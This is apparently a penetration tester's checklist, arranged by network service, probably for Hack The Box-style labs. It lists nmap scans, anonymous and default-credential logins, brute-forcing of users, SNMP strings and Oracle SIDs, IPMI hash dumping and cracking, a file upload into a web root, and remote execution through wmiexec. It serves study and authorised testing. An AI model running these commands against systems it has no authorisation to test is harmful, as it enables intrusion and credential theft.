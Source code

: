 ```yaml
---
description: >-
  notion :
  https://wise-monitor-956.notion.site/Check-list-1bc1d1e7e13c80f99560ff0f3aae6c8b
---
```


# Check List

* **FTP - 21**
  * \[ ] scan service `nmpa -sV -sC -A -p 21 IP_add`
  * \[ ] try anonymous login `ftp ip_add`
  * \[ ] to display information about TLS/SSL `openssl s_client -connect 10.129.14.136:21 -starttls ftp`
  *   \[ ] if we success to login try to download file

      `wget -m --no-passive <ftp://anonymous:anonymous@10.129.14.136`>
  * \[ ]
* **SMB - 137:139,445**
  * \[ ] scan service `nmpa -sV -sC -p 445,137,138,139 192.168.1.5`
  * \[ ] explore shared file `smbclient -N -L [//10.129.14.128](<https://10.129.14.128/>)`
  * \[ ] access shared file `smbclient [//10.129.14.128/notes](<https://10.129.14.128/notes>)`# added name of file
  * \[ ] retrieve information like user account, shared file, etc `rpcclient -U "" ip_add`
  * \[ ] retrieve shared file which you can use `smbmap -H 10.129.14.128`
  *   \[ ] try to connect on smb by any credential

      `crackmapexec smb 10.129.14.128 --shares -u '' -p '’`
  * \[ ] to automate this process use `./enum4linux-ng.py 10.129.14.128 -A`
* **NFS - 2049**
  * \[ ] scan service `nmap -sV -A -p 111,2049 10.129.14.128`
  * \[ ] show shared file or privileges `nmap --script nfs* 10.129.14.128 -sV -p 111,2049`
  * \[ ] show shared file-mounting `showmount -e 10.129.14.128`
  * \[ ] mount with machine `sudo mount -t nfs 10.129.14.128:/mnt/nfs ./target-NFS/ -o nolock`
* **SMTP - 25,465,587**
  * \[ ] scan service `nmap 10.129.14.128 -sC -sV -p 25,465,587`
  * \[ ] try to connect on SMTP `telnet ip_add 25`
  * \[ ] check open relay `nmap 10.129.14.128 -p25 --script smtp-open-relay -v`
  * \[ ] after using telnet try to check users `VRFY user_name`
  * \[ ] brute force on username `auxiliary/scanner/smtp/smtp_enum` #msfconsole
  * \[ ] another way to brute force `smtp-user-enum -M VRFY -U users.txt -t <Target-IP>`
  * \[ ] wordlist link : ‣
* **DNS - 53**
  * \[ ] to get the DNS server `dig +noall +answer [google.com](<http://google.com/>) NS`
  * \[ ] to get ipv4 address `dig +noall +answer [microsoft.com](<http://microsoft.com/>) A`
  * \[ ] mail server `dig +noall +answer [microsoft.com](<http://microsoft.com/>) MX`
  * \[ ] alias name `dig +noall +answer [microsoft.com](<http://microsoft.com/>) CNAME`
  * \[ ] to get ipv6 `dig +noall +answer [microsoft.com](<http://microsoft.com/>) AAAA`
  * \[ ] to get all service `dig +noall +answer [microsoft.com](<http://microsoft.com/>) ANY`
  * \[ ] to search in specific dns server `dig +noall +answer @spacific_DNS_Server [microsoft.com](<http://microsoft.com/>) ANY`
  * \[ ] (SOA) record includes administrative information about your zone `dig +noall +answer [microsoft.com](<http://microsoft.com/>) soa`
  * \[ ] DNS server version `dig CH TXT version.bind @spacific_DNS_Server`
  * \[ ] zone transfer `dig @mircosoft.com [8x8.com](<http://8x8.com/>) axfr`
  * \[ ] try to use `nslookup`
* **IMAP/POP3 - 143,110,995,993**
  * \[ ] Scan network `nmap 10.129.14.128 -sV -p110,143,993,995 -sC`
  * \[ ] connect with `openssl s_client -connect 10.129.14.128:993 -quiet`
  * \[ ] test login `curl -k 'imaps://10.129.14.128' --user username:password -v`
  * \[ ] manual connect with netcat `nc --ssl 10.129.14.128 993`
  * \[ ] fetch email on server `openssl s_client -connect 10.129.14.128:imaps`
* **SNMP - 161,162**
  * \[ ] retrieves OIDs `snmpwalk -v2c -c public 10.129.14.128`
  * \[ ] brute-forcing **Community Strings** `onesixtyone -c seclists/Discovery/SNMP/snmp.txt 10.129.14.128`
  * \[ ] brute-force OIDs `braa [public@10.129.14.128](<mailto:public@10.129.14.128>):.1.3.6.*`
* **MySQL - 3306**
  * \[ ] scan service `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`
  * \[ ] connect without password `mysql -u root -h 10.129.14.128`
  * \[ ] connect with pass `mysql -u root -p0xpass -h 10.129.14.128`
* **MSSQL - 1433**
  * \[ ] Scan `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`
  * \[ ] \*\*\*\*Metasploit scan `msf6 auxiliary(scanner/mssql/mssql_ping)`
  * \[ ] connect to database `python3 [mssqlclient.py](<http://mssqlclient.py/>) [Administrator@10.129.201.248](<mailto:Administrator@10.129.201.248>) -windows-auth`
* **TNS - 1521**
  * \[ ] Scan `sudo nmap -p1521 -sV <target-IP> --open`
  * \[ ] brute force on SID `sudo nmap -p1521 -sV <target-IP> --open --script oracle-sid-brute`
  * \[ ] enumerate database component `./odat.py all -s <target-IP>`
  * \[ ] login by valid credential `sqlplus scott/tiger@<target-IP>/XE`
  * \[ ] exploit file upload `./odat.py utlfile -s <target-IP> -d XE -U scott -P tiger --sysdba --putFile C:\\\\\\\\inetpub\\\\\\\\wwwroot testing.txt ./testing.txt`
  * \[ ] verify file upload `curl -X GET http://<target-IP>/testing.txt`
* **IPMI - 623**
  * \[ ] Scan service `nmap -sU --script ipmi-version -p 623 <target-IP>`
  * \[ ] version scanner `use auxiliary/scanner/ipmi/ipmi_version`
  * \[ ] dump hash `use auxiliary/scanner/ipmi/ipmi_dumphashes`
  * \[ ] crack hash `hashcat -m 7300 ipmi_hash.txt rockyou.txt`
* **SSH - 22**
  * \[ ] version, host key algorithm `./ssh-audit.py <IP>`
  * \[ ] check auth method `ssh -v <username>@<IP>`
  * \[ ] force specific method `ssh -v <username>@<IP> -o PreferredAuthentications=password`
* **Rsync - 873**
  * \[ ] scan `sudo nmap -sV -p 873 127.0.0.1`
  * \[ ] listen shared directory `nc -nv 127.0.0.1 873`
  * \[ ] enumerate files `rsync -av --list-only rsync://127.0.0.1/dev`
  * \[ ] retrieve files `rsync -av rsync://127.0.0.1/dev .`
  * \[ ] make run it over ssh `rsync -av -e ssh rsync://127.0.0.1/dev .`
  * \[ ] using no standard port `rsync -av -e "ssh -p2222" rsync://127.0.0.1/dev .`
* **R-Services - 512:514**
  * \[ ] scan service `sudo nmap -sV -p 512,513,514 <IP>`
  * \[ ] .rhosts is misconfigured `rlogin <IP> -l <user>`
* **RDP - 3389**
  * \[ ] scan serv `nmap -sV -sC 10.129.201.248 -p3389 --script rdp*`
  * \[ ] deeper analysis `nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n`
  * \[ ] initiate session `xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248`
* **WinRm - 5985,5986**
  * \[ ] `nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n`
* **WMI - 135**
  * \[ ] `wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname”`

